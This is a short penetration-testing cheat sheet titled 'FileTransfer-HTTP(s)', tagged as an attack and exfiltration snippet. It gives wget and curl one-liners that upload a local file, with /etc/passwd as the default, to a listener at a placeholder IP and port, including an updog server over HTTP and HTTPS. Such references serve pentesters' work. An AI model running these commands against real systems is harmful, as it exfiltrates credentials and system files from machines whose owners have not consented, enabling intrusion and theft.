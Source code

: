 # FileTransfer-HTTP(s)

% file transfer, exfiltration, injecton

#plateform/linux #target/remote  #cat/ATTACK/LISTEN-SERVE 

## wget - upload
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
wget --post-file <file> http://<ip>:port/
```

## curl - upload to updog (http)
For secured by password use http://:<password>@<ip>:<port>/upload
```
curl -XPOST -F "file=@<file|/etc/passwd>;filename=<filename>" -F "path=<path>" http://<ip>:<port|9090>/upload
```

## curl - upload to updog (https)
For secured by password use http://:<password>@<ip>:<port>/upload
```
curl -XPOST -k -F "file=@<file|/etc/passwd>;filename=<filename>" -F "path=<path>" https://<ip>:<port|9090>/upload
```

